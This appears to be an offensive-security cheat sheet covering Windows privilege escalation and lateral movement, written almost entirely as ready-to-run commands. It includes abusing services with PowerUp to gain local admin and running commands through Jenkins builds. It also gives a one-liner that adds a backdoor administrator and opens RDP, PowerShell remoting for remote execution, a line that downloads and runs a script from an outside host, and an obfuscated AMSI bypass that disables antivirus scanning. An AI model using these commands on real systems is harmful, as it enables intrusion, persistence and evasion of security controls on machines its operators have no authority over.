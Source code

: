 ####  Abuse service to get local admin permissions with powerup
```
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName '<domain>\<username>'
```

####  Jekins
```
Runs as local admin, go to /job/project/configure to try to see if you have build permissions in /job/project0/configure
Execute windows or shell comand into the build, you can also use powershell scripts
```

### Add user to local admin and RDP group and enable RDP on firewall
```
net user <username> <password> /add /Y   && net localgroup administrators <username> /add   && net localgroup "Remote Desktop Users" <username> /add && reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

# Lateral Movement
## General
#### Connect to machine with administrator privs
```
Enter-PSSession -Computername <computername>
$sess = New-PSSession -Computername <computername>
Enter-PSSession $sess
```

#### Execute commands on a machine
```
Invoke-Command -Computername <computername> -Scriptblock {whoami} 
Invoke-Command -Scriptblock {whoami} $sess
```

#### Load script on a machine
```
Invoke-Command -Computername <computername> -FilePath <path>
Invoke-Command -FilePath <path> $sess
```

#### Download and load script on a machine
```
iex (iwr http://xx.xx.xx.xx/<scriptname> -UseBasicParsing)
```

#### AMSI Bypass
```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
